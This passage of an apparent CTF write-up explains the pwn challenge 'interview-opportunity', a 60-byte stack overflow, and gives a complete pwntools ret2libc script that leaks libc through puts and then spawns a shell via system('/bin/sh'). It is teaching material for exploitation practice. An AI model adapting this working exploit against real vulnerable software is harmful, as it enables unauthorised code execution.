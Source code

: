I recently found this doesn't work with `ubuntu:18.04` and `centos:6` for some reason, but the 14 other Docker images I tried were okay. Apologies if this caused you trouble! I initially only tested on a couple (including my own host) and it worked on all of them so I didn't bother trying more. 

### pwn/interview-opportunity
This challenge is a classic return2libc exploit. The bug here is 60 byte overflow into the 10 byte `reason` char array from the `read()` function call.
```c
...
int main(int argc, char **argv) {
  char reason[10];
  ...
  read(0, reason, 70);
  puts(reason);
}
```
The only mitigations that are enabled are NX and ASLR. With NX enabled, we can't use shellcode. So ROP and ret2libc is our workaround. To defeat ASLR we have to do 2 passes. 1) leak the libc base address and return to main. 2) return to `system()` in libc. I have attached the solution script below.
```python
from pwn import *

e = ELF("./interview-opportunity")
libc = ELF("./libc.so.6")
target = process(e.path)
context.terminal = ["tmux", "splitw", "-v"]

rdi = 0x401313

payload = b"A" * 0x22
payload += p64(rdi)
payload += p64(e.got["puts"])
payload += p64(e.symbols["puts"])
payload += p64(e.symbols["main"])

target.sendline(payload)

target.recvuntil(b"A" * 0x22)
target.recvline()

leak = u64(target.recvline(keepends=False).ljust(8, b"\x00")) - libc.symbols["puts"]
print("leak: {:#x}".format(leak))

payload = b"A"*0x22
payload += p64(rdi + 1)
payload += p64(rdi)
payload += p64(next(libc.search(b"/bin/sh")) + leak)
payload += p64(libc.symbols["system"] + leak)

target.sendline(payload)
target.interactive()
```

